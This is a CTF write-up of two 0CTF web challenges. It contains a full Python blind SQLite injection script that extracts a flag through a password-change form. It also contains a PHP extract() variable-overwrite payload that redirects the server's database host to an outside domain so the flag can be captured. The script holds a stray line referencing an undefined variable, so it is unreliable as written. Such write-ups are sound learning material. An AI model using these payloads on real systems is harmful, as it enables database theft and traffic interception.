 `https://ctf.0ops.sjtu.cn/`
Participated as Ad Victoriam

## Lily (150pt)

There is nothing much to do in this challenge, since there are limited inputs to check vulnerabilities.
After few trials of injecting invalid inputs, you may see that the `/modify` is vulnerable to SQLi attacks.

As you analyze the sql mechanism, you may see that the service associates accounts with SQLite, and this can be checked by executing `sqlite_version()` command from the password input.

Through several SQLite Injections, you will be able to find out the table `flag` and the column `flag`.
You will be able to leak the flag by sqlite blind sql injection.

```
import urllib2
import urllib
import sys

character = ['0','1','2','3','4','5','6','7','8','9','A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','-','_','{','}','?']
flag = ""
count = 0

if(1==1):
    for i in xrange(1,32):
        for j in character:
            count += 1
            payload = "0' or substr((select flag from flag limit 0,1)," + str(i) + ",1)='" + str(j) + "' or '0"
            # register
            register_data = values = {'username' : 'stypr' + str(count),
                        'password' : 'password',
                        'email' : 'root@stypr.com'}
            register_data = urllib.urlencode(register_data)
            register = urllib2.Request("http://202.112.28.113:5000/register", register_data)
            register_response = urllib2.urlopen(register)
            register_cookie = register_response.headers.get('Set-Cookie')
            register_response = register_response.read()

            # auth
            auth_data = values = {'username' : 'stypr' + str(count),
                                    'password' : 'password'}
            auth_data = urllib.urlencode(auth_data)
            auth = urllib2.Request("http://202.112.28.113:5000/login", auth_data)
            auth.add_header('Cookie', register_cookie)
            auth_response = urllib2.urlopen(auth)
            auth_cookie = auth_response.headers.get('Set-Cookie')
            auth_response = auth_response.read()

            # modify
            modify_data = values = {'password' : str(payload)}
            print(modify_data)
            modify_data = urllib.urlencode(modify_data)
            modify = urllib2.Request("http://202.112.28.113:5000/modify", modify_data)
            modify.add_header('Cookie', auth_cookie)
            modify_response = urllib2.urlopen(modify)
            modify_cookie = modify_response.headers.get('Set-Cookie')
            modify_response = modify_response.read()
            username = 'haroldie' + str(choice)

            # reauth
            reauth_data = values = {'username' : 'stypr' + str(count),
                                    'password' : '1'}
            reauth_data = urllib.urlencode(reauth_data)
            reauth = urllib2.Request("http://202.112.28.113:5000/login", reauth_data)
            reauth.add_header('Cookie', modify_cookie)
            reauth_response = urllib2.urlopen(reauth)
            reauth_cookie = reauth_response.headers.get('Set-Cookie')
            reauth_response = reauth_response.read()

            if "Invalid password" in reauth_response:
               print("False")
            else:
               flag += str(j)
               print("flag found: " + flag)
               break
```

--

## Forward (250pt)

As you analyze the sourcecode from `http://202.112.28.121/admin.php?view-source`, 
you may see that the website is vulnerable with the extract function. 

`extract($_GET); // this is my backdoor :)`

As we look further, we can see that the key and the database is included before the `extract` function,
which would let us to modify `$host` variable, `$key` variable and other variables.

By redirecting the host to your own server and manipulating the `$key` variable, you will be able to leak the flag by performing a Man-in-the-middle attack.

`Payload: http://202.112.28.121/admin.php?_POST[key]=1&key=1&debug=true&nonce=&host=stypr.com`

```
# tcpdump -vv -w ~/final.log

...

https://www.cloudshark.org/captures/2c438d32dfc0?filter=mysql

...

def.forward.flag.flag.flag.flag...0................"......0ctf{w3ll_d0ne_guY}.......".

```
